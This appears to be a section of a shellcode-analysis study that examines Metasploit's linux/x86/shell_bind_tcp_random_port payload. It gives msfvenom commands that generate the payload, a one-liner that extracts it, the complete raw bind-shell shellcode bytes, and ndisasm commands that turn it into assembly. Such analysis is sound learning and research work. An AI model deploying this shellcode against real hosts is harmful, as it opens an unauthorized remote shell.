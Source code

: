 # 5.3 Payload *linux/x86/shell_bind_tcp_random_port*

### Check options
```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --list-options
```

![Screenshot](images/randbind/1.png)

![Screenshot](images/randbind/2.png)

There is not any basic option in this case.

For this study we will use the basic command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c
```

### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```

Using it, we get the shellcode we will use for the study of the payload:

![Screenshot](images/randbind/3.png)



### Ndisasm

Before studying the syscalls, the .nasm code is extracted using Ndisasm:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | ndisasm -u -
```


Or a little quicker:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u -
```

![Screenshot](images/randbind/6.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```bash
echo -e "section .text\nglobal _start \n_start:" > 3.nasm

echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 3.nasm
```
